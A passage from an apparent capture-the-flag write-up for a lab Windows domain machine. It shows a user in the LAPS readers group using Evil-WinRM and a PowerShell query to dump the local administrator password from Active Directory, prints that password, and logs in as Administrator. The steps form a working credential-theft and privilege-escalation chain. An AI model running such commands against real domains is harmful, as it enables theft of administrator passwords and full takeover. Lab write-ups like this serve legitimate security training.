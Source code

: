 ```shell-session
Home directory
Last logon                   6/13/2022 8:45:18 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

So this user is a member of **LAPS_reader** group. **LAPS** is **L**ocal **A**dministrator **P**assword **S**olution which is manages passwords for local accounts of domain joined computers, And we can read those passwords.

+ Reference: [Audit laps permissions](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/you-might-want-to-audit-your-laps-permissions/ba-p/2280785)

```shell-session
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties MS-Mcs-AdmPwd | Where-Object MS-Mcs-AdmPwd -ne $null | FT Name, MS-Mcs-AdmPwd}
Enter PEM pass phrase:

Name MS-Mcs-AdmPwd
---- -------------
DC01 o#]3KU094(zSpwygT7LQQJ6t
```

now we can login as **Administrator** using the found password.

```shell
$ evil-winrm -i timelapse.htb -u Administrator -p "o#]3KU094(zSpwygT7LQQJ6t" -S
```
